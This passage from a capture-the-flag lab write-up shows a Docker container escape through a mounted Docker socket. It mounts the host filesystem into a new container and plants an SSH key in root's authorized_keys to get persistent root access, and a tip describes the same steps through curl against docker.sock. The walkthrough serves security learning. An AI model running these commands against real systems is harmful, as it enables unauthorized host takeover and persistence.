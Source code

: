 ```console
root@4f18a45cca05:/var/www/html/uploads# docker --version
Docker version 20.10.24+dfsg1, build 297e128
```

Being able to interact with the Docker daemon allows us to do many things. In our case, we can use it to escape the container by creating another container with the host's filesystem mounted. First, we list all available images to use for creating a container:

```console
root@4f18a45cca05:/var/www/html/uploads# docker image ls
REPOSITORY      TAG       IMAGE ID       CREATED        SIZE
phpvulnerable   latest    d0bf58293d3b   3 months ago   926MB
php             8.1-cli   0ead645a9bc2   6 months ago   527MB
```

We can choose any available image and create a container with the host's filesystem mounted using `-v /:/mnt` and get a shell inside this new container. Inside, we can access the host's filesystem at `/mnt` and read the flag at `/mnt/root/flag.txt` to complete the room.

```console
root@4f18a45cca05:/var/www/html/uploads# docker run -v /:/mnt --rm -it php:8.1-cli bash
root@20a77d926fa2:/# wc -c /mnt/root/flag.txt
20 /mnt/root/flag.txt
```

If we also want to get a direct shell on the host, one of the easiest methods would be to add an **SSH public key** for the `root` user by writing it to `/mnt/root/.ssh/authorized_keys`.

```console
$ ssh-keygen -f id_ed25519 -t ed25519

$ cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEv0dxpGzpFzrQ6Ovsky6/pnI5m1EcqcE+tiuYFfuIL/ kali@kali

root@20a77d926fa2:/mnt/var/www/html# echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEv0dxpGzpFzrQ6Ovsky6/pnI5m1EcqcE+tiuYFfuIL/ kali@kali' > /mnt/root/.ssh/authorized_keys

$ ssh -i id_ed25519 root@review.thm
root@sequence:~# id
uid=0(root) gid=0(root) groups=0(root)
```
{: .wrap }

> Finally, I want to add that, in this case, the container with the **Docker socket** mounted had the **Docker CLI** installed, which made exploitation straightforward. However, if this were not the case, we could either upload a static Docker binary to the container or better yet use **`curl`** to perform the same steps with commands like `curl -s --unix-socket /var/run/docker.sock http://localhost/images/json`, if you want to give it a try.
{: .prompt-tip }

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
